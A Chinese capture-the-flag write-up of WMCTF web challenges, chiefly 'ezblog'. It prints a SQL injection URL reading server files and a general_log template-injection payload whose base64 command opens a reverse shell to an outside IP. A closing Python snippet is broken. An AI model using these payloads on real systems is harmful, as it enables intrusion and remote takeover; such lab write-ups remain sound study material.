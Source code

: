 ```yaml
---
layout: post
title: WMCTF中其他的题目
categories: [blog ]
tags: [Java,]
description: "当时禁了非常多的类"
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: azeril.com
 

---
```


![](/img/swirl/11.jpg)

# WMCTF



## 你的权限放我来

![image-20230820170743457](..\img\final\image-20230820170743457.png)

注册登陆后看到其他用户，可以猜想到这是一个数据库

#### 网页功能

用户登陆

用户注册

密码重置

登陆界面回显	

![image-20230820202007118](..\img\final\image-20230820202007118.png)

![image-20230820202741171](..\img\final\image-20230820202741171.png)

![image-20230820202729437](..\img\final\image-20230820202729437.png)

发现直接发送到我的邮箱了

![image-20230820230613247](..\img\final\image-20230820230613247.png)

本来想改密码直接换这个邮箱的毕竟题目源码有几个可疑的，但是发现token会进行校验

### 自己差的地方

都想到更改邮箱了，md直接把token删了呀，然后换上源码的邮箱，就可以更改指定邮箱的密码，然后登陆即可（一个个邮箱试）



## ezblog

当时看这道题得时候发现源码太多了，没耐心看下去，出了wp（来分析分析）

```javascript
app.get("/post/:id/edit", async (req, res) => {
    try {
        // parseInt的性能问题 https://dev.to/darkmavis1980/you-should-stop-using-parseint-nbf
        let id = req.params.id;
        if (!/\d+/igm.test(id) || /into|outfile|dumpfile/igm.test(id)) { // 判断 id是否是纯数字
            res.status(400).send(`Error: '${id}' is invalid id`);
            return;
        }
        // id只能为数字，可以安全的转为number，避免parseInt降低性能
        let post = await (0, posts_1.getPostById)(id);
        res.render("edit", {
            post
        });
    }
    catch (e) {
        res.status(500).send(e);
    }
});
```

/\d+/igm.test(id)这里得校验是字符中含有数字就可以,然后调用posts_1.getPostById，拼接可能造成sql注入

```javascript
function getPostById(id) {
    return new Promise((resolve, reject) => {
        // 使用 number 类型的 id 不会导致 sql 注入，因为数字类型只有0-9的数字，无法构造sql语句
        // TypeScript可以确保传入类型只能为number，不能为字符串，如果为字符串，将会发生编译时错误导致tsc无法编译，所以是安全的
        db_1.connection.query(`select * from Posts where id = ` + id, (err, results) => {
            if (err) {
                reject(err);
            }
            else {
                if (results.length === 0) {
                    reject(new Error("Post not found"));
                }
                else {
                    resolve({
                        id: results[0].id,
                        title: results[0].title,
                        content: results[0].content
                    });
                }
            }
        });
    });
}
```

![image-20230822163807965](..\img\final\image-20230822163807965.png)

发现出现了sql注入报错，说明存在sql这时候![image-20230822163856426](..\img\final\image-20230822163856426.png)

然后我们需要获得ping码，![image-20230822164110854](..\img\final\image-20230822164110854.png)

然后看✌们wp说是从   发现主程序启动的日志在`/home/ezblog/.pm2/logs/main-out.log`中

#### 解决方法

```
根据源码搭建一个docker（这里本地尝试使用dockercompose直接起得，但是起不来）
呃呃呃最后用了lxxx✌得docker
然后需要找启动得日志嘛
find / -name "logs" -type d   全局搜索logs日志文件夹
其实通过看dockerfile文件，能看的差不多
```

![image-20230822172053413](..\img\final\image-20230822172053413.png)

```
但是找了一圈没找到很疑惑

/post/-1%20union%20select%201,2,load_file(0x2f686f6d652f657a626c6f672f2e706d322f6c6f67732f6d61696e2d6f75742e6c6f67)/edit
```

![image-20230822165130652](..\img\final\image-20230822165130652.png)

![image-20230822172203881](..\img\final\image-20230822172203881.png)

然后就可以直接访问/console输入pin码

![image-20230822172243408](..\img\final\image-20230822172243408.png)

然后到了这个界面（如果说上面的拼死命可能做出，但是后面卧槽我是真不行）

#### General_log详解

1、介绍

开启general log将所有到达MySQL Server的SQL语句记录下来

show variables like 'general_log'; -- 查看日志是否开启

set global general_log=on; -- 开启日志功能

show variables like 'general_log_file'; -- 看看日志文件保存位置

set global general_log_file='tmp/general.lg'; -- 设置日志文件保存位置

show variables like 'log_output'; -- 看看日志输出类型 table或file

set global log_output='table'; -- 设置输出类型为 table

set global log_output='file'; -- 设置输出类型为file



#### 回归题目

​	先拿着佬的wp进行一波分析

```java
    CREATE DATABASE mysql;
    CREATE TABLE mysql.general_log(
      event_time timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
      user_host mediumtext NOT NULL,
      thread_id int(11) NOT NULL,
      server_id int(10) unsigned NOT NULL,
      command_type varchar(64) NOT NULL,
      argument mediumtext NOT NULL
    ) ENGINE=CSV DEFAULT CHARSET=utf8 COMMENT='General log';
    SET GLOBAL general_log_file='/home/ezblog/views/post.ejs';
    SET GLOBAL general_log='on';
    SELECT "<% global.process.mainModule.require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDIuMjI0LjU3LzQ0NDQgMD4mMQ==}|base64 -d|bash'); %>";
```

![image-20230822221718926](..\img\final\image-20230822221718926.png)

![image-20230822223223891](..\img\final\image-20230822223223891.png)

理想状态是在中间建立表，然后下面渲染模板，用的是docker中的绝对路径（但是却没成功）不知道自己操作哪里错了。







```
f=open("C:\Users\c'x'k\Desktop\misctool\3.zip","rb")#这样读取的内容是二进制的
hex_list=["{:02X}".format(c) for c in f.read()]  #这里的{:02x}是把后面二进制转换为 2位的16进制，不足则补0
hex_str=''.join(hex_list)
reversed_hex_str=hex_str[::-1]
reversed_bytes=bytes.fromhex(reversed_hex_str) #将反转后的16进制字符串转换为字节流
with open('Reverse_reversed.zip','wb') as f:  #打开一个新的二进制文件，将反转后的字节流写入其中
    f.write()
```

